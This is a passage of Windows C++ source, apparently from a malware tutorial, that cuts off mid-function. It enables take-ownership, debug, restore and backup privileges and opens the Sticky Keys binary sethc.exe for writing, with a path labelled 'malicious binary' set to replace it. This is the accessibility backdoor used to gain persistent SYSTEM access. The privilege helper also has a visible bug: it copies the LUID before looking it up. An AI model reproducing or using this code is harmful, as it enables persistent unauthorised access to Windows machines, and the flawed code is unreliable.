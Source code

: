 ```cpp
);

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  if (!setPrivilege(SE_TAKE_OWNERSHIP_NAME)) return -1;
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!setPrivilege(SE_RESTORE_NAME)) return -1;
  if (!setPrivilege(SE_BACKUP_NAME)) return -1;

  HANDLE hFile = CreateFileA((LPCSTR)legitApp, GENERIC_WRITE, 
  FILE_SHARE_READ, NULL, OPEN_EXISTING, 
  FILE_ATTRIBUTE_NORMAL, NULL);

  // obtain the SID for the current user
  HANDLE hToken;
  DWORD dwSize = 0;
  PTOKEN_USER pTokenUser = NULL;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
    printf("Failed to open process token: %d\n", GetLastError());
    CloseHandle(hFile);
    return 1;
  }
  printf("open process token: ok\n");

  // get the required size for the token information
  GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
  pTokenUser = (PTOKEN_USER)malloc(dwSize);
  if (pTokenUser == NULL) {
    printf("failed to allocate memory for token information\n");
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("allocate memory token info: ok\n");

  // get the token information
  if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
```
